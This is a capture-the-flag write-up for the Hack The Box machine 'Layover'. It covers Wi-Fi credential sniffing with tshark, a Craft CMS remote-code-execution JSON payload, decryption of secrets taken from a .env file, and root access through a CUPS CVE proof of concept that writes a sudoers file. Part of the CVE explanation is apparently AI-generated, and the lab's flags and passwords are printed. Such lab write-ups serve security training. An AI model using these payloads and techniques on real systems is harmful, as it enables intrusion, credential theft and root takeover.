




# Layover Linux Medium HTB Machine Writeup

## NMAP Emuneration
```bash
┌──(jameskaois㉿kali)-[~]
└─$ nmap -sC -sV -v 10.129.57.121
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```
## RDP to the target
The provided credentials:
```
As is common in real life pentests, you will start the Layover box with credentials for the following account **contractor** / **Contractor2026!**
```
Use this to RDP to the target and successfully got into a Linux machine:
```bash
┌──(jameskaois㉿kali)-[~]
└─$ xfreerdp /u:contractor /p:'Contractor2026!' /v:10.129.57.121
```

## Emuneration inside machine
The jumpbox, has 2 wlan interfaces:
```bash
contractor@airside-ws01:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.159.143.45  netmask 255.255.255.0  broadcast 10.159.143.255
        inet6 fe80::216:3eff:fe83:ea41  prefixlen 64  scopeid 0x20<link>
        inet6 fd42:3ff5:6554:20e5:216:3eff:fe83:ea41  prefixlen 64  scopeid 0x0<global>
        ether 00:16:3e:83:ea:41  txqueuelen 1000  (Ethernet)
        RX packets 417  bytes 46770 (46.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1304  bytes 134106 (134.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 27584  bytes 34738045 (34.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 27584  bytes 34738045 (34.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.13.37.182  netmask 255.255.255.0  broadcast 10.13.37.255
        inet6 fe80::c0eb:db9:6ee1:2d73  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)
        RX packets 276  bytes 90665 (90.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 672  bytes 76685 (76.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan3: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 02:00:00:00:03:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
Open the browser:

The `wifi.international.htb` doesn't have much to do with, `portal.international.htb` is what we can exploit, but to connect to it we have to connect to the international wifi.

Emunerate the `portal.international.htb`, found the admin login page `/admin/login`, one interesting is Wireshark is installed in this jumpbox, capturing the requests of wlan3:
```bash
ip link set wlan3 down
iw dev wlan3 set type monitor
ip link set wlan3 up
iw dev wlan3 set channel 6

tshark -i wlan3 \
  -Y 'http.request.method=="POST"' \
  -T fields \
  -e ip.src \
  -e http.request.full_uri \
  -e urlencoded-form.key \
  -e urlencoded-form.value
```
Got:
```bash
10.13.37.132    http://portal.international.htb/miles/login.php    username,password    jenny,Fl1ghtDeck2026!
```
## Web Exploitation
Use the captured credentials to login the admin page:

Saw `Craft CMS 5.9.8`, the vulnerability is RCE, through Yii2 Behavior Injection, make a POST request to `/index.php?p=admin/actions/element-search/search`
Payload:
```python
payload = {
    "elementType": "craft\\elements\\Category",
    "siteId": 1,
    "search": "",
    "condition": {
        "class": "craft\\elements\\conditions\\ElementCondition",
        "elementType": "craft\\elements\\Category",
        "fieldLayouts": [{
            "as rce": {
                "__class": "yii\\behaviors\\AttributeTypecastBehavior",
                "__construct()": [{
                    "attributeTypes": {
                        "typecastBeforeSave": [
                            "Psy\\Readline\\Hoa\\ConsoleProcessus",
                            "execute"
                        ]
                    },
                    "typecastBeforeSave": ["sh", "-c", "<COMMAND>"]
                }]
            },
            "on *": "self::beforeSave"
        }]
    },
    "CRAFT_CSRF_TOKEN": csrf2
}
```
Then from there explore the `/var/www/portal/.env`, found the database credentials and Craft security key:
```
CRAFT_SECURITY_KEY=IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr
mailRelayPassword = u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0...
mailRelayUser     = aporter
```
Decrypt these and got the password for `aporter`: `Skyp0rt_Relay!26`
```bash
cd /var/www/portal
php -r "
require 'vendor/autoload.php';
\$security = new \yii\base\Security();
echo \$security->decryptByKey(
    base64_decode('<mailRelayPassword>'),
    'IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr'
);
"
```
## Get user flag
In the jumpbox:
```bash
contractor@airside-ws01:~$ sudo -i
[sudo] password for contractor: 
root@airside-ws01:~# sshpass -p 'Skyp0rt_Relay!26' ssh -o StrictHostKeyChecking=no aporter@10.13.37.10
Warning: Permanently added '10.13.37.10' (ED25519) to the list of known hosts.
aporter@portal:~$ cat user.txt
be4c85167367b62ea894b417d6ef067c
aporter@portal:~$ 
```
## Privilege Escalation
Generated by ChatGPT:
### CVE-2026-34990 (CUPS 2.4.16)
#### 5.1 What Is CUPS?
**CUPS** (Common Unix Printing System) is the standard printing system on Linux and macOS. The `cupsd` daemon manages printers, print queues, and jobs. It runs as root because it needs direct access to hardware devices and write access to system directories.
#### 5.2 The Vulnerability
**CVE-2026-34990** specifically affects CUPS 2.4.16. The system has two relevant authentication mechanisms:
1. **CUPS-Create-Local-Printer**: An IPP operation that creates a temporary printer. By design, it **does not require administrator authentication**—any local user can invoke it. The created printer points to a `device-uri` that can be an IPP URL.
2. **`Authorization: Local` token**: When `cupsd` needs to validate a temporary printer against the specified `device-uri`, it makes an outgoing IPP connection to that URI. If the URI points to a localhost service that responds with `WWW-Authenticate: Local trc="y"`, `cupsd` responds by including its local authentication token in the `Authorization: Local <TOKEN>` header.
3. **The token is reusable**: Any request to `/admin/` on localhost that includes this token is accepted as authenticated with CUPS administrator privileges.
4. **`file://` bypass**: The normal CUPS path rejects `file://` URIs for persistent printers (blocked by the `FileDevice` policy). The bypass consists of first creating a temporary printer with the URI `file:///path/to/file`, then making it permanent using `OP_ADD_MODIFY_PRINTER` with `printer-is-temporary=false` without specifying the `device-uri` again—at this point, the policy is no longer checked.
5. **Arbitrary file writes as root**: When a job is printed to that printer, `cupsd` opens the destination file with `O_WRONLY|O_CREAT|O_TRUNC` while running as root, writing the job's contents.
## Get root flag
I used the this [POC](https://github.com/OffensiveBias20/CVE-2026-34990-POC/blob/main/CVE-2026-34990.py)
```bash
aporter@portal:~$ cd /tmp
aporter@portal:/tmp$ vim exp.py
aporter@portal:/tmp$ mv exp.py cve-2026-34990.py
aporter@portal:/tmp$ python3 ./cve-2026-34990.py 
[*] CVE-2026-34990 | user=aporter | cupsd=127.0.0.1:631
[*] coercing cupsd -> rogue server (try 1) ...
[+] captured token: AE9BA157D0B81BDD2E06B2EE79463EDC
[*] writing sudoers ...
[*] wrote /etc/sudoers.d/aporter-pwn
[+] ROOT: uid=0(root) gid=0(root) groups=0(root)
[*] run: sudo -i
aporter@portal:/tmp$ sudo -i
root@portal:~# cat /root/root.txt
12610840fc3eca18ca7db5cac4f4100b
```